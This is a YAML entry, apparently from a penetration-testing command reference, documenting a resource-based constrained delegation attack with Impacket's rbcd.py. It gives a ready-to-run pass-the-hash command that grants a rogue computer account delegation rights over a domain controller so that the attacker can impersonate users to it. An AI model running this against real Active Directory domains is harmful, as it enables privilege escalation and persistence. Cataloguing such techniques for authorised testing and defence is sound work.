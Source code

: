 ```yaml
---
title: |
  Modify property of a target computer with the security descriptor of another computer 
description: |
  Impacket rbcd.py will modify the msDS-AllowedToActOnBehalfOfOtherIdentity property of a target computer with security descriptor of another computer.
  The following command adds the related security descriptor of the created EVILCOMPUTER to the msDS-AllowedToActOnBehalfOfOtherIdentity property of DC01.
  This basically means that EVILCOMPUTER can get impersonated service tickets for DC01 using getST.py.

  Command Reference:

    Target IP: 10.10.10.1

    Domain: test.local

    Username: test

    Hash: :A9FDFA038C4B75EBC76DC855DD74F0DA

    Delegate To: DC01$

    Delegate From: EVILCOMPUTER$

command: |
  python3 rbcd.py -action write -delegate-to "DC01$" -delegate-from "EVILCOMPUTER$" -dc-ip 10.10.10.1 -hashes :A9FDFA038C4B75EBC76DC855DD74F0DA test.local/test
items:
  - Username
  - Hash
services:
  - Kerberos
  - SMB
  - LDAP
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
  - Persistence
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/rbcd.py
  - https://github.com/tothi/rbcd-attack
---
```

